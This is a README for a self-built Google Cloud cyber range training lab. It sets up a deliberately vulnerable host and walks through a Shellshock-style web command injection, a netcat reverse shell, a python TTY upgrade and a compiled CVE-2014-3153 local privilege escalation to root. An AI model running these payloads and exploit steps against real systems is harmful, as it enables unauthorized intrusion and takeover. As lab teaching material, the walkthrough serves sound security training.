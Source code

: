 # Google Cloud Platform Cyber Range 

## Artifacts

* [Terraform Build script](main.tf)
* [Terraform Variables file](terraform.tfvars)
* [Blue Ansible playbook](blue35370.yml)

## Instructions

1. Login to https://console.cloud.google.com/
2. Start the Cloud Shell
3. Clone this repo

```
git clone https://github.com/MikeStorrs/cyber.git
cd cyber
```

4. Use Terraform to Deploy Cyber Range 

```
terraform init
terraform apply
```

5. SSH to the blue 35370 instance `gcloud compute ssh blue-35370 --zone us-east4-a`
6. Accept SSH Key Generation and Set SSH Passphrase

```
Do you want to continue (Y/n)?  Y
Enter passphrase (empty for no passphrase): <PASSPHRASE>
```

7. Clone the meetup, cyber-range-target, and exploit-curation repos

```
git clone https://github.com/MikeStorrs/cyber.git
git clone https://github.com/redteam-project/cyber-range-target
git clone https://github.com/redteam-project/exploit-curation
```

8. Run Ansible script to make this instance vulnerable to Shellshock and libfutex

```
cd /
sudo ansible-playbook cyber/blue35370.yml > ~/ansible.out
```

9. Wait for the instance to reboot, then re-log in and remove Supervisor Mode Access Prevention and (NOTE NEED TO ADD nosmap / nosmep to Ansible Script)

```
gcloud compute ssh blue-35370 --zone us-east4-a
sudo grubby --args "nosmap nosmep" --update-kernel /boot/vmlinuz-3.10.0-123.1.2.el7.x86_64
sudo reboot
```

10. Now scan for exploitable vulnerabilities with `lem`

```
cd /
sudo pip install lem
sudo lem host assess --curation exploit-curation --kind stride --score 090000
sudo lem exploit copy --id 35146 --source exploit-database --destination /var/www/html --curation exploit-curation
sudo mv /var/www/html/exploit-database-35146.txt /var/www/html/index.php
```

11. Our remote code execution vulnerability is now ready to exploit. Now start two new Cloud Shell tabs and ssh to red-1 from both.

```
gcloud compute ssh red-1 --zone us-east4-a
```

12. In the first `red-1` shell, install Netcat and start a listener on port 4444.

```
nc -nlv 4444
```

13. In the second `red-1` shell, exploit the Shellshock vulnerability we staged in step 10. Replace the 10.150.0.3 IP address with your blue-35370 Internal IP and the 10.150.0.2 with your red-1 Internal IP.

```
curl -X GET 'http://10.150.0.3/index.php?cmd=nc%20-nv%2010.150.0.2%204444%20-e%20/bin/bash'
```

14. Now in the first `red-1` shell, you should have a reverse shell to `blue-35370`. Use this Python trick to get a tty and invoke bash.

```
python -c 'import pty; pty.spawn("/bin/sh")'
```

15. Create a virtualenv, install lem, and look for a privilege escalation vulnerability.

```
cd /tmp
virtualenv venv
source venv/bin/activate
pip install lem
git clone https://github.com/redteam-project/exploit-curation
lem host assess --curation exploit-curation --kind stride --score 000009
```

Note that there is currently a [bug](https://github.com/redteam-project/lem/issues/5) in lem that prevents the exploit that maps to CVE-2014-3153 from returning, but for purposes of this lab we know that it maps to EDBID 35370.

16. Stage the exploit and pop root. 

```
lem exploit copy --curation /tmp/exploit-curation --source exploit-database --id 35370 --destination /tmp/
mv exploit-database-35370.txt exploit.c
gcc -lpthread exploit.c -o exploit
./exploit
id -a
```
